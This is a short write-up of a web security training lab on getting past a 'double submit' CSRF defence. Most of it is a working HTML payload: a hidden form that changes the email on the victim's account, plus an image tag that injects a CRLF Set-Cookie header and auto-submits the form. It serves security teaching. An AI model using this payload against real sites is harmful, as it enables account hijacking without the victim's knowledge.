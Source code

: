 *This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: wiener:peter *

Search function was injectable with the modified `csrf` cookie value. 
I pasted the following code into my exploit server:
```html 
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a42002103cb16ef82ffd8f00056005c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="tester&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="SwRYPM8iZOZPnrvxwB89UZG6282Xu7Em" />
      <!-- <input type="submit" value="Submit request" /> -->
    </form>
	<img src="https://0a42002103cb16ef82ffd8f00056005c.web-security-academy.net/?search=test;+SameSite=None;%0d%0aSet-Cookie%3a+csrfKey%3d87d6P8UhArwyErEyUn3MKqrIp79v6KTi;+SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```
Stored the exploit and sent it to the victim, solving the lab.

